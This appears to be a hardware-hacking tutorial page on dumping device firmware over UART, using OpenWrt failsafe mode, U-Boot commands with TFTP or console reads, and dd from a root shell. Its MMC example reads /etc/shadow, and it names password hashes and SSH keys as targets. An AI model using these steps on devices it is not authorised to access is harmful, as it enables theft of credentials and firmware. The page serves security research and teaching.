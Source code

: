 # Extract Firmware using UART

#### At this point you should have:

* Understand what UART does (if not check: [UART](./))
* Identified UART pins (if not check:[ Identify UART](uart-from-start-to-finish.md))
* Got a working connection to UART (if not check: [Connect to UART](connect-to-uart.md))

#### Not all UART interfaces are the same. Infact manufacturers could output actually anything over it. So there is no guarante you can abuse UART to dump firmware or get a shell on the device. But there are common methods, which we want to discuss further:

{% tabs %}
{% tab title="Failsafe mode" %}
Some manufacturers build a failsafe mode in their devices, which is designed as a recovery option, if the device is not operating correctly. An example for this is OpenWRT, which will print something like this in the bootlog:

```
Press the [f] key and hit [enter] to enter failsafe mode
Press the [1], [2], [3] or [4] key and hit [enter] to select the debug level  
```

Pressing `F` will give us a root shell:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>OpenWrt command command shell</p></figcaption></figure>

Depending on your device you may have to mount the correct filesystem first:

* Run `ls /dev` or `blkid` to locate storage devices and partitions (e.g., `/dev/sda1`, `/dev/mmcblk0p2`).
* Use these commands to first create a mount point and then mound the filesystem:
  * `mkdir /mnt/filesystem`
  * `mount /dev/<root_partition> /mnt/filesystem`
* Now you may access the filesystem under `/mnt/filesystem`

From here we can check if the root-filesystem is already been mounted and we can look for:

* /etc/shadow hashes
* ssh private keys
* other credentials
{% endtab %}

{% tab title="U-Boot" %}
If U-Boot is used, chances are that the "stop autoboot" function may not be disabled. Here we have to press any key within a certain timespan (for example 5 sec) and we will be provided with a U-Boot shell

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Typing `help` will give us a list of all available commands

To dump the firmware, we can then use one of these options:

1. **Using TFTP:**
   1. On your attacker host:
      1. Set up a TFTP server `sudo apt install tftpd-hpa` (files will be stored in`/srv/tftp`)
      2. Create a firmware.bin file, as in TFTP that can't be done by the client:
         1. ```
            cd /srv/tftp
            sudo touch firmware.bin
            sudo chmod 666 firmware.bin
            ```
   2. In U-Boot:
      1. Setup IP-Adresses:
         1. ```
            setenv ipaddr <IP of target> (e.g.: 10.0.0.2)
            setenv serverip <IP of attacker host> (e.g.: 10.0.0.1)
            ```
      2. check if IP Adress are saved: `printenv`
   3. Initialize the flash with `sf probe 0`.
   4. Copy the flash contents to RAM (adjust offset and size):
      1. `sf read <addr in RAM> <offset in flash> <size>`
      2. `sf read 0x82000000 0x0 0x1000000`. (=16MB in this case)
   5. Transfer the data with TFTP:
      1. `tftp <addr> <filename> <size>`
      2. `tftp 0x82000000 firmware.bin 0x1000000`.
2. We can also dump it in the console: (CAN BE SLOW!)
   1. Read data:
      1. `md.b <offset to read from> <number of bytes to read>`
      2. example: `md.b 0x82000000 0x1000000`
   2. Save data to file using `CTRL-A L` in minicom for example (has to be trimmed)
3. If we want to dump from an MMC:
   1.  ```bash
       #list available MMCs
       mmc list
       # select an MMC to dump (we have to select one else next commands fail)
       mmc dev 0
       #get info of mmc
       mmc info
       # get partition to see which partition we wanna dump (e.g. rootfs)
       mmc part
       # search in partition
       ext4ls mmc <device>:<partition> <path>
       ext4ls mmc 1:8 /home/root
       # read file from MMC to RAM
       ext4load mmc <device>:<partition> <memory_address in ram> <file_path>
       ext4load mmc 1:8 0xC6200000 /etc/shadow
       # show the file from memory
       md.b <memory_address in ram> <size>
       md.b 0xC6200000 0x43C
       ```

       Tool that does these steps automatically:[ https://github.com/nmatt0/firmwaretools](https://github.com/nmatt0/firmwaretools)
{% endtab %}

{% tab title="Root-shell" %}
If you drop directly into a root shell or if you can figure out the root-password (e.g. default creds), you can simply `dd` the partition to a usb stick or transfer it another way.

Example:

```bash
sudo dd if=/dev/sda of=/dev/sdb bs=4M status=progress
```

Replace:

* `/dev/sda` with your root filesystem device
* `/dev/sdb` with your USB stick device

Ensure you verify the correct device paths to avoid overwriting important data. You can use `lsblk` or `fdisk -l` to check your devices.
{% endtab %}
{% endtabs %}

## Analyze firmware

* Using `binwalk firmware.bin` we can try to analyze the firmware and extract sensitive information
* check the "[Analyze Firmware](../../analyze-firmware.md)" chapter

## Resources

[https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart](https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart)\
[https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd](https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd)
